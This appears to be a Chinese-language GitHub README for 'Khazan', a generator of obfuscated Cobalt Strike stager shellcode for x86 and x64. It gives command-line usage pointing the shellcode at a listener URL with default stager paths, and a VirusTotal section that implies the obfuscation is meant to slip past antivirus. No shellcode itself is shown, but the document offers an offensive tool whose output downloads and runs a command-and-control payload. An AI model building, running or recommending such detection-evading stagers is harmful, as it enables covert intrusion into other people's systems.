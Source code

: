 # Khazan

## 1. 简介

一个 CS shellcode 生成器，用于生成适配 CS 的 shellcode，小玩具。

## 2. 主要功能

【*】支持 http 协议的 shellcode

【*】支持 x64/x86种架构

【*】x64 架构下会对 shellcode 进行混淆

## 3. 使用说明

参数：

```
-a string
	选择生成 shellcode 的架构（x86/x64）
-u string
	指定监听的 url
```

生成 64位 shellcode：

```
Khazan.exe -a x64 -u http://127.0.0.1/FMsW
	/FMsW 为CS默认的64位stager请求路径，如果使用profile文件需要修改该路径
```

生成 32位 shellcode：

```
Khazan.exe -a x86 -u http://127.0.0.1/yn4A
	/yn4A 为CS默认的32位stager请求路径，如果使用profile文件需要修改该路径
```

## 4. VT

64 位 shellcode：
![](https://user-images.githubusercontent.com/84751437/229712692-074d5857-049f-4f0d-804e-db55c684222e.png)



